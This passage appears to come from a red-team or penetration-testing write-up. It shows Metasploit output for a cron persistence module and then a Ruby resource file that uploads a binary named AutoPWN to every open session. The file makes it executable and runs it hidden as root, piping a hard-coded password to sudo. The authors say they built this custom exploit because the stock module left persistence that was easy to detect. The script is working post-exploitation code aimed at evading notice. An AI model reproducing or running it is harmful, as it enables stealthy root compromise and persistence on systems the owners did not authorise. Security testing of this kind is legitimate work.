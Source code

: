 ```console

Available targets:
  Id  Name
  --  ----
  0   Cron
  1   User Crontab
  2   System Crontab

Check supported:
  No

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  CLEANUP   true             yes       delete cron entry after execution
  SESSION                    yes       The session to run this module on.
  TIMING    * * * * *        no        cron timing.  Changing will require WfsDelay to be adjusted
  USERNAME  root             no        User to run cron/crontab as

Payload information:
  Avoid: 4 characters

Description:
  This module will create a cron or crontab entry to execute a 
  payload. The module includes the ability to automatically clean up 
  those entries to prevent multiple executions. syslog will get a copy 
  of the cron entry.
  ```
  
We decided to use this module during testing.  We found that it worked, however it was very easy to notice that there was an adversary on the box and where to find his persistence.  Instead, we decided to use a custom exploit based on this module.
  
To do that we created a resource file for Metasploit that will upload a payload and execute it.

#### Resource file    
uploadandrun.rc   
```ruby
<ruby>
framework.sessions.each do |num,session|
print_status("Uploading file to session #{num}")
session.fs.file.upload_file("/tmp/AutoPWN","AutoPWN")
print_status("Uploaded, Executing AutoPWN")
session.sys.process.execute("/bin/bash", "-c 'chmod +x /tmp/AutoPWN && echo \"password!\" | sudo -S bash -c \"/tmp/AutoPWN\"'", {'Hidden' => true, 'Channelized' => false})
print_status("Successful AutoPWN on session #{num}")
end
</ruby>
```

This file will upload the file AutoPWN to the tmp directory on each of the sessions that are currently open.  Then it will make the file executable and execute the file as root.
